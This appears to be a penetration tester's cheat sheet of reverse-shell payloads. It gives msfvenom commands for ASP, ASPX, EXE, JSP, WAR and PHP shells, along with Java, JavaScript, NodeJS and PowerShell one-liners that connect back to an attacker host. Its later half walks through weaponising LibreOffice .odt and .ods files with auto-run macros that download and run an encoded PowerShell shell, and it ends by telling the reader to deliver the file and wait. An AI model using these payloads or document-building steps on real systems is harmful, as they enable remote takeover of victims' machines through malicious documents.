 #### asp
Is it IIS 5.1?
5.1
```bash - kali
cp /usr/share/webshells/asp/cmd-asp-5.1.asp .
```
OR
```bash - kali
cp /usr/share/webshells/asp/cmdasp.asp .
```
32 bit Stageless:
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse86.asp
```
32 bit Staged:
```bash - kali
msfvenom -p windows/shell/reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse86.asp
```
64 bit Stageless:
```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse64.asp
```
64 bit Staged:
```bash - kali
msfvenom -p windows/x64/shell/reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse64.asp
```
#### aspx
```bash - kali
cp /usr/share/webshells/aspx/cmdasp.aspx .
```
32 bit Stageless:
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse86.aspx
```
32 bit Staged:
```bash - kali
msfvenom -p windows/shell/reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse86.aspx
```
64 bit Stageless:
```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse64.aspx
```
64 bit Staged:
```bash - kali
msfvenom -p windows/x64/shell/reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse64.aspx
```
#### HTTP/S
```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f exe -o /var/www/html/shell.exe
```
#### HTTP/S meterpreter
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=$KALI LPORT=443 -f exe -o /var/www/html/msfstaged.exe
```
#### java
```java
r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/$KALI/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor()
```
#### JavaScirpt
```js
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(443, "$KALI", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/; })();
```
#### jsp
```bash - kali
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$KALI LPORT=443 -f raw > reverse.jsp
```
#### jar / war
```bash - kali
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$KALI LPORT=443 -f war > reverse.war
```
Sometimes the jar itself will not work, we need to extract and upload one of its files:
```bash - kali
jar -xvf reverse.war
```
Now find and upload the .jsp file
#### NodeJS
```
echo "require('child_process').exec('bash -c \\'bash -i >& /dev/tcp/$KALI/443 0>&1\\''" > /var/www/node/package.js
```
#### php
```bash - kali
msfvenom -p php/reverse_php LHOST=$KALI LPORT=443 -f raw > reverse.php
```
#### .odt LibreOffice
save the following as Shelly.ps1
```
$client = New-Object System.Net.Sockets.TCPClient('$KALI',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
```bash - kali
sudo apt install libreoffice-writer
```
Open LibreOffice Writer application.  start a new file, go to Tools > Macros > Organize Macros > basic.
select "FILE NAME" > New.  Name the Module.
```
REM  *****  BASIC  *****
Sub Main
	Shell("cmd /c powershell iwr http://$KALI/Shelly.ps1 -o %TEMP%/Shelly.ps1")
	Shell("cmd /c powershell -c %TEMP%/Shelly.ps1")
End Sub
```
**Save the document** as odt format.
We then need to make this macro run automatically when the document is opened.
Get out of the macro screen, back to the original file window.
go to Tools > customize > Events > Open Document > Macro >  double click "filename" > double click Standard > Select "macro name" > click OK > click OK
**Save file**
```bash - kali
chmod 755 Shelly.ps1
```
![[Python#Server]]
![[1._rlwrap]]
upload odt file.
#### .hta - .ods LibreOffice
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f hta-psh -o evil.hta
```
Open the hta file, copy the "powershell.exe -nop -w hidden -e aQBmA...CQAcwApADsA"
```bash - kali
mousepad transform.py
```
Paste in place for the s variable.
```python
s = "powershell.exe -nop -w hidden -e aQBmA...CQAcwApADsA"
n = 50
for i in range(0, len(s), n):
    chunk = s[i:i + n]
    print('Str = Str + "' + chunk + '"')
```
```bash - kali
sudo apt install libreoffice-calc
```
start a new LibreOffice Calc file, go to Tools > Macros > Organize Macros > basic.
select "FILE NAME" > New.  Name the Module.  Paste in your generated to look like this:
==NOTICE HOW THIS STARTS WITH "cmd.exe /C ......."==
Make sure your Dim and Str's line up!
---
Sub Exploit
   Dim Str As String
   Str = Str + "cmd.exe /C powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
   Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
   Str = Str + "AUwAyAEIAMABLAEEAQQBBAD0AJwAnACkAKQApACwAWwBTAHkAc"
   Str = Str + "wB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgA"
   Str = Str + "uAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgBNAG8AZABlAF0AOgA6A"
   ...
   Str = Str + "EQAZQBjAG8AbQBwAHIAZQBzAHMAKQApACkALgBSAGUAYQBkAFQ"
   Str = Str + "AbwBFAG4AZAAoACkAKQApACcAOwAkAHMALgBVAHMAZQBTAGgAZ"
   Str = Str + "QBsAGwARQB4AGUAYwB1AHQAZQA9ACQAZgBhAGwAcwBlADsAJAB"
   Str = Str + "zAC4AUgBlAGQAaQByAGUAYwB0AFMAdABhAG4AZABhAHIAZABPA"
   Str = Str + "HUAdABwAHUAdAA9ACQAdAByAHUAZQA7ACQAcwAuAFcAaQBuAGQ"
   Str = Str + "AbwB3AFMAdAB5AGwAZQA9ACcASABpAGQAZABlAG4AJwA7ACQAc"
   Str = Str + "wAuAEMAcgBlAGEAdABlAE4AbwBXAGkAbgBkAG8AdwA9ACQAdAB"
   Str = Str + "yAHUAZQA7ACQAcAA9AFsAUwB5AHMAdABlAG0ALgBEAGkAYQBnA"
   Str = Str + "G4AbwBzAHQAaQBjAHMALgBQAHIAbwBjAGUAcwBzAF0AOgA6AFM"
   Str = Str + "AdABhAHIAdAAoACQAcwApADsA"
   Shell(Str)
End Sub
---
**Save the document**
We then need to make this macro run automatically when the document is opened.
Get out of the macro screen, back to the original file window.
go to Tools > customize > Events > Open Document > Macro >  double click "filename" > double click Standard > Select "macro name" > click OK > click OK
Now just deliver the file and wait for it to be opened.